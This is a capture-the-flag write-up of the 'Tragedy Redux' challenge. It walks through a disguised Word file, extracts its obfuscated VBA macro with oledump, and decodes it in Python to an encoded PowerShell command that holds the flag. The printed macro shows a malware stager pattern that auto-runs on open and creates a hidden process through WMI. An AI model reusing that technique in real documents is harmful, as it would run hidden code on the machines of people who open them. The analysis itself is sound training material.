 ```yaml
---
title: "Tragedy Redux"
description: "We found this file as part of an attack chain that seemed to manipulate file contents to stage a payload. Can you make any sense of it?"
from: "huntress (2023)"
date: "2023-10-16"
type: "ctf"
tags: ["malware", "rev"]
---
```


# Tragedy Redux

<aside>
"We found this file as part of an attack chain that seemed to manipulate file contents to stage a payload. Can you make any sense of it?"
</aside>

Unzipping the challenge archive, we are given a single file to work with - running `file` on it tells us that it’s a Zip archive:

```bash
$ ls -la
total 56
drwxr-xr-x  2 pls pls  4096 Oct 16 20:00 .
drwxr-xr-x 18 pls pls  4096 Oct 16 19:59 ..
-rw-------  1 pls pls 24518 Oct 15 23:29 tragedy_redux
-rwxr-xr-x  1 pls pls 21810 Oct 16 19:59 tragedy_redux.7z

$ file tragedy_redux
tragedy_redux: Zip archive data, made by v4.5, extract using at least v2.0, last modified, last modified Sun, Jan 01 1980 00:00:00, uncompressed size 1453, method=deflate
```

Performing a second extraction, we are given some XML documents and references to Microsoft Word & Visual Basic - alongside an error that indicates this might not
be what we think it is - `bad zipfile offset (local header sig):  0`

```bash
$ unzip tragedy_redux
Archive:  tragedy_redux
file #1:  bad zipfile offset (local header sig):  0
  inflating: _rels/.rels
  inflating: word/document.xml
  inflating: word/_rels/document.xml.rels
  inflating: word/vbaProject.bin
  inflating: word/theme/theme1.xml
  inflating: word/_rels/vbaProject.bin.rels
  inflating: word/vbaData.xml
  inflating: word/settings.xml
  inflating: word/styles.xml
  inflating: word/webSettings.xml
  inflating: word/fontTable.xml
  inflating: docProps/core.xml
  inflating: docProps/app.xml
```

Seems like this isn't ACTUALLY a Zip archive.

My assumption then is that this is a VBA Macro for MS Word, though loading this into Word’s VB editor tool throws an error:

![Untitled](/img/tragedy_redux_img/Untitled.png)

And attempting to load `word/vbaProject.bin` by itself yields another error:

![Untitled](/img/tragedy_redux_img/Untitled%201.png)

I make another guess that the standalone `.bin` would contain file header info - in this case, `ÐÏà¡±á`; I make a lot of assumptions, but at the end of the day I suppose that's kind of what this is all
about. Regardless, that seems pretty cursed, even for file headers, so I thought it was a bit unlikely. Turns out this was a pretty solid guess as it IS header info - its a mangled hex-to-ASCII conversion for an [Object Linking and Embedding (OLE) Compound File](https://sceweb.sce.uhcl.edu/abeysekera/itec3831/labs/FILE%20SIGNATURES%20TABLE.pdf).
There are also numerous references to the `OLE` file format scattered throughout the compiled `tragedy_redux` code, too, which is a very promising outcome.

I couldn't figure out a way to actually _run_ the code (doesn't seem like a great way to distribute a malware stager), but with the `OLE` keyword as part of my vocab I was able to pretty quickly find a
simple method to [extract the OLE archive](https://fishtech.group/cybersecurity/extracting-and-analyzing-malicious-word-macros-for-threat-hunting/) by way of a python script - [OLEDump.py.](https://blog.didierstevens.com/programs/oledump-py/)

Downloading OLEDump.py and passing the `vbaProject.bin` file to it yields the following output:

```bash
$ python ../oledump.py vbaProject.bin
  1:       410 'PROJECT'
  2:        71 'PROJECTwm'
  3: M    6164 'VBA/NewMacros'
  4: m     954 'VBA/ThisDocument'
  5:      3067 'VBA/_VBA_PROJECT'
  6:      3003 'VBA/__SRP_0'
  7:       226 'VBA/__SRP_1'
  8:      2334 'VBA/__SRP_2'
  9:       526 'VBA/__SRP_3'
 10:       571 'VBA/dir'
```

As described in the article prior, files containing VBA macros are denoted via an `M` flag in the second column in the script's output. We are then able to run OLEDump.py with
the `-s <stream-no.>` argument, passing `vbaProject.bin` once again (specifying the `-v` argument here to indicate that we want to decompress the macro).
I’m going to also pipe the output to `tee` and write it to a file so I can open it in an IDE, because the script is obfuscated:

```vb
$ python ../oledump.py -s 3 -v vbaProject.bin | tee vbaDecomp.txt
Attribute VB_Name = "NewMacros"
Function Pears(Beets)
    Pears = Chr(Beets - 17)
End Function

Function Strawberries(Grapes)
    Strawberries = Left(Grapes, 3)
End Function

Function Almonds(Jelly)
    Almonds = Right(Jelly, Len(Jelly) - 3)
End Function

Function Nuts(Milk)
    Do
    OatMilk = OatMilk + Pears(Strawberries(Milk))
    Milk = Almonds(Milk)
    Loop While Len(Milk) > 0
    Nuts = OatMilk
End Function

Function Bears(Cows)
    Bears = StrReverse(Cows)
End Function

Function Tragedy()

    Dim Apples As String
    Dim Water As String

    If ActiveDocument.Name <> Nuts("131134127127118131063117128116") Then
        Exit Function
    End If

    Apples = "1291281361181311321211181251250490621181271160490910881071321061041160..." 'long string, truncated for brevity.
    Water = Nuts(Apples)

    GetObject(Nuts("136122127126120126133132075")).Get(Nuts("104122127068067112097131128116118132132")).Create Water, Tea, Coffee, Napkin

End Function

Sub AutoOpen()
    Tragedy
End Sub
```

Visual Basic looks cursed (because it is) - but we can walk through the script and describe the purpose of each function:

- `Pears(Beets)` -> Subtracts 17 from a number and returns its corresponding ASCII character,
- `Strawberries(Grapes)` -> Returns the first 3 characters in a string,
- `Almonds(Jelly)` -> Removes the first 3 characters in a string,
- `Nuts(Milk)` -> Like the script's `main` function - loops through a string which it passes to other functions, concatenating the returned values into a final payload,
- `Bears(Cows)` -> Returns a reversed string (this function isn't used).

Essentially, the program here is building out a payload by looping over a number in 3-character sections, subtracting 17 from the section, and then converting the result to ASCII.
I really wanted to simply run this and have it print a payload to my terminal, but I couldn't get it to run at all - I _think_ I discarded all the garbage variables and functions,
like `Tea`, `Coffee`, `Napkin`, and `Bears()`, but the script adamantly refusing to execute. Maybe it was silently doing deobfuscation and similar malware things in the background? Who knows.

In any case, I gave up and converted the script to python:

```python
# i've added types & comments for clarity

def int_to_str(n: int) -> str:
    """subtract 17 from n and return the associated ascii char"""
    return chr(n - 17)

def slice_str(s: str) -> str:
    """return the first three characters of a string"""
    return s[:3]

def discard_chrs(s: str) -> str:
    """remove the first three characters of a string"""
    return s[3:]

def main(s: str) -> str:
    """
    deobfuscates and returns a string:
        1. use the length of `s` to perform a loop:
            a. pass `s` to `slice_str()`
            b. convert the returned value to an integer and pass to
            `int_to_str()`
            c. append the returned char to `stager_payload`
            d. pass `s` to `discard_chrs` remove the processed portion of `s`
        2. loop until the length of `s` is equal to 0
        3. return `stager_payload` to be printed to stdout.
    """

    # store the output from each iteration
    stager_payload = ""

    while len(s) > 0:
        stager_payload += int_to_str(int(slice_str(s)))
        s = discard_chrs(s)
    return stager_payload

payload = "129128136118131132121118125125049062118127116049091088107132106104116074090126" # ... truncated
print(main(payload))
```
> This script still runs, regardless of the truncation - though it will only output **part** of the final Powershell command below.

The script here converts the `Apples` string into a PowerShell command:

```powershell
powershell -enc JGZsYWc9ImZsYWd7NjNkY2M4MmMzMDE5Nzc2OGY0ZDQ1OGRhMTJmNjE4YmN9Ig==
```

Finally, we get the flag by decoding the base64 section of the command.

```bash
$ echo 'JGZsYWc9ImZsYWd7NjNkY2M4MmMzMDE5Nzc2OGY0ZDQ1OGRhMTJmNjE4YmN9Ig==' | base64 -d
flag="flag{6******************************c}"
```
